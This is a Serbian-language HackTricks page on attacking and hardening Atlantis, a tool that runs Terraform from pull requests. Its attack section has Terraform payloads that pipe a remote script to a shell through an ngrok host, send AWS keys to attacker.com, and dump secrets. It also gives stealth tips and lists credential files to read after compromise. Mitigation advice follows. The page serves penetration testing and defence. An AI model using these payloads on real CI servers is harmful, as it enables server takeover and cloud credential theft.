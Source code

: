 # Bezbednost Atlantisa

<details>

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Obuka AWS Crveni Tim Ekspert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Obuka GCP Crveni Tim Ekspert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Osnovne informacije

Atlantis vam u osnovi pomaže da pokrenete terraform iz Pull zahteva sa vašeg git servera.

![](<../.gitbook/assets/image (161).png>)

## Lokalni Lab

1. Idite na **stranicu izdanja Atlantisa** na [https://github.com/runatlantis/atlantis/releases](https://github.com/runatlantis/atlantis/releases) i **preuzmite** onaj koji vam odgovara.
2. Kreirajte **lični token** (sa pristupom repozitorijumu) vašeg **github** korisnika
3. Izvršite `./atlantis testdrive` i on će kreirati **demo repozitorijum** koji možete koristiti da **komunicirate sa atlantisom**
1. Možete pristupiti web stranici na 127.0.0.1:4141

## Pristup Atlantisu

### Krediti Git Servera

**Atlantis** podržava nekoliko git domaćina kao što su **Github**, **Gitlab**, **Bitbucket** i **Azure DevOps**.\
Međutim, da bi pristupao repozitorijumima na tim platformama i obavljao akcije, potrebno je da imaju neki **dodeljen privilegovan pristup** (barem dozvole za pisanje).\
[Dokumentacija](https://www.runatlantis.io/docs/access-credentials.html#create-an-atlantis-user-optional) podstiče da kreirate korisnika na ovim platformama specifično za Atlantisa, ali neki ljudi mogu koristiti lične naloge.

{% hint style="warning" %}
U svakom slučaju, sa perspektive napadača, **Atlantis nalog** će biti veoma **interesantan za kompromitovanje**.
{% endhint %}

### Webhookovi

Atlantis opciono koristi [**Webhook tajne**](https://www.runatlantis.io/docs/webhook-secrets.html#generating-a-webhook-secret) da validira da li su **webhookovi** koje prima od vašeg Git domaćina **legitimni**.

Jedan način da se to potvrdi je da se **dozvole zahteve samo da dolaze sa IP adresa** vašeg Git domaćina, ali jednostavniji način je korišćenje Webhook Tajne.

Imajte na umu da osim ako koristite privatni github ili bitbucket server, moraćete da izložite krajnje tačke webhooka internetu.

{% hint style="warning" %}
Atlantis će **izlagati webhookove** tako da git server može slati informacije. Sa perspektive napadača bilo bi interesantno znati **da li možete slati poruke**.
{% endhint %}

### Krediti Provajdera <a href="#provider-credentials" id="provider-credentials"></a>

[Od dokumentacije:](https://www.runatlantis.io/docs/provider-credentials.html)

Atlantis pokreće Terraform jednostavno **izvršavanjem `terraform plan` i `apply`** komandi na serveru **na kome je hostovan Atlantis**. Baš kao kada pokrećete Terraform lokalno, Atlantisu su potrebni krediti za vaš specifičan provajder.

Na vama je kako ćete [dostaviti kredite](https://www.runatlantis.io/docs/provider-credentials.html#aws-specific-info) za vaš specifičan provajder Atlantisu:

* Atlantis [Helm Chart](https://www.runatlantis.io/docs/deployment.html#kubernetes-helm-chart) i [AWS Fargate Modul](https://www.runatlantis.io/docs/deployment.html#aws-fargate) imaju svoje mehanizme za kredite provajdera. Pročitajte njihovu dokumentaciju.
* Ako pokrećete Atlantisa u oblaku, mnogi oblaci imaju načine da daju pristup cloud API-ju aplikacijama koje se izvršavaju na njima, npr:
* [AWS EC2 Uloge](https://registry.terraform.io/providers/hashicorp/aws/latest/docs) (Pretražite "EC2 Uloga")
* [GCE Instance Servisni Nalozi](https://registry.terraform.io/providers/hashicorp/google/latest/docs/guides/provider\_reference)
* Mnogi korisnici postavljaju okružne promenljive, npr. `AWS_ACCESS_KEY`, gde se Atlants izvršava.
* Drugi kreiraju neophodne konfiguracione fajlove, npr. `~/.aws/credentials`, gde se Atlants izvršava.
* Koristite [HashiCorp Vault Provajder](https://registry.terraform.io/providers/hashicorp/vault/latest/docs) da dobijete kredite provajdera.

{% hint style="warning" %}
**Kontejner** u kome **Atlantis** **radi** će verovatno **sadržati privilegovane kredite** za provajdere (AWS, GCP, Github...) koje Atlantis upravlja putem Terraforma.
{% endhint %}

### Web Stranica

Podrazumevano, Atlantis će pokrenuti **web stranicu na portu 4141 na localhostu**. Ova stranica vam omogućava da omogućite/onemogućite atlantis apply i proverite status plana repozitorijuma i otključate ih (ne dozvoljava modifikacije, pa nije toliko korisna).

Verovatno je nećete naći izloženu internetu, ali izgleda da podrazumevano **nije potrebno korisničko ime i lozinka** za pristup (a ako jesu, `atlantis`:`atlantis` su **podrazumevani**).

## Konfiguracija Servera

Konfiguracija za `atlantis server` može se specificirati putem zastavica komandne linije, okružnih promenljivih, konfiguracionog fajla ili kombinacijom ova tri.

* Možete pronaći [**ovde listu zastavica**](https://www.runatlantis.io/docs/server-configuration.html#server-configuration) podržanih od strane Atlantisa servera
* Možete pronaći [**ovde kako transformisati opciju konfiguracije u okružnu promenljivu**](https://www.runatlantis.io/docs/server-configuration.html#environment-variables)

Vrednosti se **biraju po ovom redosledu**:

1. Zastavice
2. Okružne Promenljive
3. Konfiguracioni Fajl

{% hint style="warning" %}
Imajte na umu da u konfiguraciji možete pronaći interesantne vrednosti kao što su **tokeni i lozinke**.
{% endhint %}

### Konfiguracija Repozitorijuma

Neke konfiguracije utiču na **način upravljanja repozitorijumima**. Međutim, moguće je da **svaki repozitorijum zahteva različite postavke**, pa postoje načini da se specificira svaki repozitorijum. Ovo je prioritetni redosled:

1. Repozitorijum [**`/atlantis.yml`**](https://www.runatlantis.io/docs/repo-level-atlantis-yaml.html#repo-level-atlantis-yaml-config) fajl. Ovaj fajl se može koristiti da se specificira kako atlantis treba da tretira repozitorijum. Međutim, podrazumevano neke ključne vrednosti ne mogu biti specificirane ovde bez određenih zastavica koje to omogućavaju.
1. Verovatno je potrebno dozvoliti ih zastavicama poput `allowed_overrides` ili `allow_custom_workflows`
2. [**Konfiguracija na Serveru**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config): Možete je proslediti zastavicom `--repo-config` i to je yaml koji konfiguriše nove postavke za svaki repozitorijum (podržani su regexi)
3. **Podrazumevane** vrednosti
#### Zaštita PR-a

Atlantis omogućava da naznačite da li želite da **PR** odobri neko drugi (čak i ako to nije postavljeno u zaštiti grane) i/ili da bude **`spojiv`** (zaštita grane je prošla) **pre pokretanja primene**. Sa aspekta bezbednosti, preporučljivo je postaviti oba opcije.

U slučaju da je `allowed_overrides` True, ova podešavanja mogu biti **prepisana na svakom projektu putem fajla `/atlantis.yml`**.

#### Skripte

Konfiguracija repozitorijuma može **specificirati skripte** koje će se izvršiti [**pre**](https://www.runatlantis.io/docs/pre-workflow-hooks.html#usage) (_pre workflow hooks_) i [**posle**](https://www.runatlantis.io/docs/post-workflow-hooks.html) (_post workflow hooks_) izvršenja **workflow-a**.

Ne postoji opcija da se **specificiraju** ove skripte u **repozitorijumskom fajlu `/atlantis.yml`**.

#### Workflow

U konfiguraciji repozitorijuma (konfiguracija na serverskoj strani) možete [**specificirati novi podrazumevani workflow**](https://www.runatlantis.io/docs/server-side-repo-config.html#change-the-default-atlantis-workflow), ili [**kreirati nove prilagođene workflow-e**](https://www.runatlantis.io/docs/custom-workflows.html#custom-workflows)**.** Takođe možete **specificirati** koje **repozitorijume** mogu **pristupiti** novim generisanim.

Zatim, možete dozvoliti fajlu **atlantis.yaml** svakog repozitorijuma da **specificira workflow koji će se koristiti**.

{% hint style="danger" %}
Ako je zastava [**konfiguracije na serverskoj strani**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) `allow_custom_workflows` postavljena na **True**, workflow-i mogu biti **specificirani** u **`atlantis.yaml`** fajlu svakog repozitorijuma. Potencijalno je takođe potrebno da **`allowed_overrides`** takođe specificira **`workflow`** da bi **prepisao workflow** koji će biti korišćen.\
Ovo će u osnovi omogućiti **RCE na Atlantis serveru svakom korisniku koji može pristupiti tom repozitorijumu**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

#### Provera politike Conftest

Atlantis podržava pokretanje **server-side** [**conftest**](https://www.conftest.dev/) **polisa** protiv izlaza plana. Uobičajene upotrebe za korišćenje ovog koraka uključuju:

* Odbijanje korišćenja liste modula
* Tvrdnja atributa resursa prilikom kreiranja
* Otkrivanje nenamernih brisanja resursa
* Prevencija sigurnosnih rizika (tj. izlaganje sigurnih portova javnosti)

Možete proveriti kako da ga konfigurišete u [**dokumentaciji**](https://www.runatlantis.io/docs/policy-checking.html#how-it-works).

## Atlantis Komande

[U dokumentaciji](https://www.runatlantis.io/docs/using-atlantis.html#using-atlantis) možete pronaći opcije koje možete koristiti za pokretanje Atlantisa:
```bash
# Get help
atlantis help

# Run terraform plan
atlantis plan [options] -- [terraform plan flags]
##Options:
## -d directory
## -p project
## --verbose
## You can also add extra terraform options

# Run terraform apply
atlantis apply [options] -- [terraform apply flags]
##Options:
## -d directory
## -p project
## -w workspace
## --auto-merge-disabled
## --verbose
## You can also add extra terraform options
```
## Napadi

{% hint style="warning" %}
Ako tokom eksploatacije naiđete na ovu **grešku**: `Error: Error acquiring the state lock`

Možete je popraviti pokretanjem:
```
atlantis unlock #You might need to run this in a different PR
atlantis plan -- -lock=false
```
{% endhint %}

### Atlantis plan RCE - Izmena konfiguracije u novom PR-u

Ako imate pristup za pisanje nad repozitorijumom, bićete u mogućnosti da napravite novu granu na njemu i generišete PR. Ako možete **izvršiti `atlantis plan`** (ili možda se automatski izvršava) **bićete u mogućnosti da izvršite udaljeni kod unutar Atlantis servera**.

To možete uraditi tako što ćete [**naterati Atlantisa da učita spoljni izvor podataka**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source). Samo ubacite payload poput sledećeg u fajl `main.tf`:
```json
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Skriveniji napad

Ovaj napad možete izvesti čak i na **skriveniji način**, prateći ove sugestije:

* Umesto dodavanja reverznog šella direktno u terraform fajl, možete **učitati spoljni resurs** koji sadrži reverzni šel:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Možete pronaći rev shell kod na [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* U spoljnom resursu, koristite **ref** funkciju da sakrijete **terraform rev shell kod u grani** unutar repozitorijuma, nešto poput: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`
* **Umesto** kreiranja **PR-a ka masteru** da biste pokrenuli Atlantis, **napravite 2 grane** (test1 i test2) i napravite **PR sa jedne na drugu**. Kada završite napad, jednostavno **uklonite PR i grane**.

### Atlantis plan Dump Tajni

Možete **izvući tajne korišćene od strane terraforma** pokretanjem `atlantis plan` (`terraform plan`) ubacivanjem nečega poput ovoga u terraform fajl:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
### Atlantis primenjuje RCE - Izmena konfiguracije u novom PR-u

Ako imate pristup za pisanje nad repozitorijumom, moći ćete da napravite novu granu na njemu i generišete PR. Ako možete **izvršiti `atlantis apply` moći ćete da izvršite RCE unutar Atlantisa servera**.

Međutim, obično ćete morati da zaobiđete neka zaštitna podešavanja:

* **Spojivo**: Ako je ova zaštita postavljena u Atlantisu, možete pokrenuti **`atlantis apply` samo ako je PR spojiv** (što znači da zaštita grane mora biti zaobiđena).
* Proverite potencijalne [**zaobilaske zaštite grane**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)
* **Odobreno**: Ako je ova zaštita postavljena u Atlantisu, **neki drugi korisnik mora odobriti PR** pre nego što možete pokrenuti `atlantis apply`
* Podrazumevano možete zloupotrebiti [**Gitbot token da biste zaobišli ovu zaštitu**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)

Pokretanje **`terraform apply` na zlonamerni Terraform fajl sa** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Samo se pobrinite da neki payload poput sledećih završi u fajlu `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Pratite **preporuke iz prethodne tehnike** kako biste izvršili ovaj napad na **diskretniji način**.

### Umetanje Terraform parametara

Prilikom pokretanja `atlantis plan` ili `atlantis apply`, terraform se pokreće ispod, možete proslediti komande terraformu iz atlantisa komentarišući nešto poput:
```bash
atlantis plan -- <terraform commands>
atlantis plan -- -h #Get terraform plan help

atlantis apply -- <terraform commands>
atlantis apply -- -h #Get terraform apply help
```
Nešto što možete proslediti su env promenljive koje mogu biti korisne za zaobilaženje nekih zaštita. Proverite terraform env vars na [https://www.terraform.io/cli/config/environment-variables](https://www.terraform.io/cli/config/environment-variables)

### Prilagođeni Radni Tok

Pokretanje **zlonamernih prilagođenih naredbi za izgradnju** navedenih u datoteci `atlantis.yaml`. Atlantis koristi datoteku `atlantis.yaml` sa grane zahteva za povlačenje, **ne** sa `master` grane.\
Ova mogućnost je pomenuta u prethodnom odeljku:

{% hint style="danger" %}
Ako je zastava [**konfiguracija na serverskoj strani**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) postavljena na **True**, radni tokovi mogu biti **navedeni** u datoteci **`atlantis.yaml`** svakog repozitorijuma. Potencijalno je takođe potrebno da **`allowed_overrides`** takođe specificira i **`workflow`** da bi se **zamenio radni tok** koji će biti korišćen.

Ovo će u osnovi omogućiti **RCE na Atlantis serveru bilo kom korisniku koji može pristupiti tom repozitorijumu**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

### Zaobilaženje zaštite planiranja/primene

Ako je zastava [**konfiguracija sa serverske strane**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) `allowed_overrides` _konfigurisana_ sa `apply_requirements`, moguće je da repozitorijum **izmeni zaštitu planiranja/primene kako bi je zaobišao**.
```yaml
repos:
- id: /.*/
apply_requirements: []
```
### PR Preuzimanje identiteta

Ako neko pošalje **`atlantis plan/apply` komentare na vaše validne zahteve za povlačenje,** to će uzrokovati da se terraform pokrene kada to ne želite.

Osim toga, ako nemate konfigurisano u **zaštiti grane** da zatražite **ponovno procenjivanje** svakog zahteva za povlačenje kada se **doda novi commit** na nju, neko bi mogao **napisati zlonamerne konfiguracije** (proverite prethodne scenarije) u terraform konfiguraciji, pokrenuti `atlantis plan/apply` i dobiti RCE.

Ovo je **postavka** u Github zaštiti grane:

![](<../.gitbook/assets/image (216).png>)

### Tajna Webhook-a

Ako uspete da **ukradete tajnu webhook-a** koja se koristi ili ako se **ne koristi nikakva tajna webhook-a**, mogli biste **pozvati Atlantis webhook** i **izvršiti atlantis komande** direktno.

### Bitbucket

Bitbucket Cloud **ne podržava tajne webhook-a**. To bi moglo omogućiti napadačima da **falsifikuju zahteve sa Bitbucket-a**. Proverite da li dozvoljavate samo IP adrese Bitbucket-a.

* To znači da bi **napadač** mogao poslati **lažne zahteve Atlantisu** koji izgledaju kao da dolaze sa Bitbucket-a.
* Ako specificirate `--repo-allowlist` onda bi mogli samo da lažiraju zahteve koji se odnose na te repozitorijume, tako da bi najveća šteta koju bi mogli da naprave bila da planiraju/primene na vašim sopstvenim repozitorijumima.
* Da biste to sprečili, dozvolite [IP adrese Bitbucket-a](https://confluence.atlassian.com/bitbucket/what-are-the-bitbucket-cloud-ip-addresses-i-should-use-to-configure-my-corporate-firewall-343343385.html) (vidi Izlazne IPv4 adrese).

## Post-Eksploatacija

Ako ste uspeli da pristupite serveru ili ste barem dobili LFI, postoje neke zanimljive stvari koje biste trebali pokušati pročitati:

* `/home/atlantis/.git-credentials` Sadrži pristupne podatke za vcs
* `/atlantis-data/atlantis.db` Sadrži pristupne podatke za vcs sa više informacija
* `/atlantis-data/repos/<org_name>`_`/`_`<repo_name>/<pr_num>/<workspace>/<path_to_dir>/.terraform/terraform.tfstate` Terraform stanje datoteke
* Primer: /atlantis-data/repos/ghOrg\_/\_myRepo/20/default/env/prod/.terraform/terraform.tfstate
* `/proc/1/environ` Env promenljive
* `/proc/[2-20]/cmdline` Komandna linija `atlantis server` (može sadržati osetljive podatke)

## Otklanjanje

### Ne Koristite Na Javnim Repozitorijumima <a href="#don-t-use-on-public-repos" id="don-t-use-on-public-repos"></a>

Zato što bilo ko može komentarisati javne zahteve za povlačenje, čak i sa svim dostupnim sigurnosnim merama, i dalje je opasno pokretati Atlantis na javnim repozitorijumima bez odgovarajuće konfiguracije sigurnosnih postavki.

### Ne Koristite `--allow-fork-prs` <a href="#don-t-use-allow-fork-prs" id="don-t-use-allow-fork-prs"></a>

Ako radite na javnom repozitorijumu (što se ne preporučuje, vidi gore) ne biste trebali postaviti `--allow-fork-prs` (podrazumevano je false) jer bilo ko može otvoriti zahtev za povlačenje sa svog forka ka vašem repozitorijumu.

### `--repo-allowlist` <a href="#repo-allowlist" id="repo-allowlist"></a>

Atlantis zahteva da specificirate listu dozvoljenih repozitorijuma sa kojih će prihvatati webhook-ove putem `--repo-allowlist` zastave. Na primer:

* Specifični repozitorijumi: `--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* Ceo vaša organizacija: `--repo-allowlist=github.com/runatlantis/*`
* Svi repozitorijumi u vašoj GitHub Enterprise instalaciji: `--repo-allowlist=github.yourcompany.com/*`
* Svi repozitorijumi: `--repo-allowlist=*`. Korisno kada ste u zaštićenoj mreži, ali opasno bez postavljanja tajne webhook-a.

Ova zastava osigurava da vaša instalacija Atlantisa nije korišćena sa repozitorijumima koje ne kontrolišete. Pogledajte `atlantis server --help` za više detalja.

### Zaštita Terraform Planiranja <a href="#protect-terraform-planning" id="protect-terraform-planning"></a>

Ako su napadi koji podnose zahteve za povlačenje sa zlonamernim Terraform kodom u vašem modelu pretnje, morate biti svesni da odobrenja za `terraform apply` nisu dovoljna. Moguće je pokrenuti zlonamerni kod u `terraform plan` koristeći [`external` data source](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source) ili specificiranjem zlonamernog provajdera. Taj kod bi mogao da ekstraktuje vaše akreditive.

Da biste to sprečili, možete:

1. Ugraditi provajdere u sliku Atlantisa ili host i zabraniti izlaz u produkciji.
2. Implementirati protokol registra provajdera interno i zabraniti javni izlaz, na taj način kontrolišete ko ima pristup za pisanje u registar.
3. Modifikujte [konfiguraciju repozitorijuma na serverskoj strani](https://www.runatlantis.io/docs/server-side-repo-config.html) `plan` korak da validira protiv korišćenja zabranjenih provajdera ili data izvora ili PR-ova od korisnika koji nisu dozvoljeni. Takođe možete dodati dodatnu validaciju u ovom trenutku, npr. zahtevajući "thumbs-up" na PR pre nego što dozvolite nastavak `plan`-a. Conftest bi mogao biti od koristi ovde.

### Tajne Webhook-a <a href="#webhook-secrets" id="webhook-secrets"></a>

Atlantis bi trebalo pokrenuti sa postavljenim tajnama webhook-a putem `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET` okruženjskih promenljivih. Čak i sa postavljenom `--repo-allowlist` zastavom, bez tajne webhook-a, napadači bi mogli poslati zahteve Atlantisu predstavljajući se kao repozitorijum koji je na listi dozvoljenih. Tajne webhook-a osiguravaju da zahtevi webhook-a zaista dolaze od vašeg VCS provajdera (GitHub ili GitLab).

Ako koristite Azure DevOps, umesto tajni webhook-a dodajte osnovno korisničko ime i lozinku.

### Osnovna Autentikacija Azure DevOps-a <a href="#azure-devops-basic-authentication" id="azure-devops-basic-authentication"></a>

Azure DevOps podržava slanje osnovnog autentikacionog zaglavlja u svim webhook događajima. Ovo zahteva korišćenje HTTPS URL-a za lokaciju vašeg webhook-a.

### SSL/HTTPS <a href="#ssl-https" id="ssl-https"></a>

Ako koristite tajne webhook-a, ali je vaš saobraćaj preko HTTP-a, tajne webhook-a mogu biti ukradene. Omogućite SSL/HTTPS korišćenjem `--ssl-cert-file` i `--ssl-key-file` zastava.

### Omogućite Autentikaciju na Atlantis Web Serveru <a href="#enable-authentication-on-atlantis-web-server" id="enable-authentication-on-atlantis-web-server"></a>

Veoma je preporučljivo omogućiti autentikaciju na web servisu. Omogućite BasicAuth korišćenjem `--web-basic-auth=true` i postavite korisničko ime i lozinku korišćenjem `--web-username=yourUsername` i `--web-password=yourPassword` zastava.

Takođe možete proslediti ove vrednosti kao okruženjske promenljive `ATLANTIS_WEB_BASIC_AUTH=true` `ATLANTIS_WEB_USERNAME=yourUsername` i `ATLANTIS_WEB_PASSWORD=yourPassword`.

## Reference

* [**https://www.runatlantis.io/docs**](https://www.runatlantis.io/docs)
* [**https://www.runatlantis.io/docs/provider-credentials.html**](https://www.runatlantis.io/docs/provider-credentials.html)

<details>

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS-a:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili **telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
